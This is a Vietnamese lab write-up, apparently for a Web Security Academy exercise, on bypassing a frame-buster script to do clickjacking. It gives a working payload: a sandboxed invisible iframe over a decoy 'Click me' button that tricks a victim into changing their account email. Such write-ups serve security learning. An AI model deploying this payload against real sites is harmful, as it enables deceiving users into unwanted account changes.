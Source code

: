 # Write-ups: Clickjacking with a frame buster script

### Tổng quan

### Mục tiêu

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác







- đăng nhập vào tài khoản `wiener`:`peter`, trong mục update email cho phép điền trước email trong url /my-account?id=wiener&email=wiener%40gmail.com

- dựa vào đó ta sẽ điền một email có trước và tạo 1 site mồi với nút click được chèn trước nút email nhằm đánh lừa người dùng

- Trong exploit server kiểm tra có thể chèn thẻ <iframe> hay ko với payload: 
`<iframe src="https://0a0f008c0364d63681d0f279006500f4.web-security-academy.net/my-account"></iframe>`
    - view exploit hiện ko thể chèn do có java buster chặn 

- bypass java buster bằng sandbox
<iframe src="https://0ad600b703758ec7806f03e60024000d.web-security-academy.net/my-account?email=aaaa%40gmail.com"
        sandbox="allow-forms">
</iframe>
    - view exploit quan sát được web

- chèn payload hiển thị nút click me để lừa người dùng ấn vào update email. Tùy chỉnh vị trí nút click me để khớp với nút update email sau đó gửi cho nạn nhân và hoàn thành lab.
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:465px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ad600b703758ec7806f03e60024000d.web-security-academy.net/my-account?email=aaaa%40gmail.com"
        sandbox="allow-forms">
</iframe>




### Bài học rút ra

### Kết luận